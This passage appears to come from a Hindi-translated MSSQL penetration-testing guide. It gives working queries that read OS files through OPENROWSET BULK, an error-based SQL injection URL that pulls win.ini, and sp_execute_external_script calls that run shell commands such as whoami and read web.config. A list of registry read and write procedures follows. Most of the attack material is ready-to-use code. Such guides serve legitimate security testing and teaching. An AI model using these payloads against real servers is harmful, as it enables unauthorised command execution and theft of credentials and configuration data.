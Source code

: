 डिफ़ॉल्ट रूप से, `MSSQL` फाइल **पढ़ने की अनुमति देता है किसी भी फाइल पर ऑपरेटिंग सिस्टम में जिसे खाते के पास पढ़ने की पहुंच है**। हम निम्नलिखित SQL क्वेरी का उपयोग कर सकते हैं:
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
हालांकि, **`BULK`** विकल्प के लिए **`ADMINISTER BULK OPERATIONS`** या **`ADMINISTER DATABASE BULK OPERATIONS`** अनुमति की आवश्यकता होती है।
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```
#### SQLi के लिए त्रुटि-आधारित वेक्टर:
```
https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--
```
### **RCE/फाइलें पढ़ना स्क्रिप्ट चलाना (Python और R)**

MSSQL आपको **Python और/या R** में **स्क्रिप्ट्स** चलाने की अनुमति दे सकता है। ये कोड **xp\_cmdshell** का उपयोग करके कमांड चलाने वाले **विभिन्न उपयोगकर्ता** द्वारा चलाए जाएंगे।

Example trying to execute a **'R'** _"Hellow World!"_ **काम नहीं कर रहा**:

![](<../../.gitbook/assets/image (393).png>)

Example using configured python to perform several actions:
```sql
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
### रजिस्ट्रि पढ़ें

Microsoft SQL Server **कई विस्तारित स्टोर प्रक्रियाएँ** प्रदान करता है जो आपको न केवल नेटवर्क के साथ बल्कि फ़ाइल सिस्टम और यहां तक कि [**Windows Registry**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)** के साथ बातचीत करने की अनुमति देती हैं:**

| **सामान्य**                  | **इंस्टेंस-जानकारी**                     |
| ---------------------------- | -------------------------------------- |
| sys.xp\_regread              | sys.xp\_instance\_regread              |
| sys.xp\_regenumvalues        | sys.xp\_instance\_regenumvalues        |
| sys.xp\_regenumkeys          | sys.xp\_instance\_regenumkeys          |
| sys.xp\_regwrite             | sys.xp\_instance\_regwrite             |
| sys.xp\_regdeletevalue       | sys.xp\_instance\_regdeletevalue       |
| sys.xp\_regdeletekey         | sys.xp\_instance\_regdeletekey         |
| sys.xp\_regaddmultistring    | sys.xp\_instance\_regaddmultistring    |
| sys.xp\_regremovemultistring | sys.xp\_instance\_regremovemultistring |
```sql
```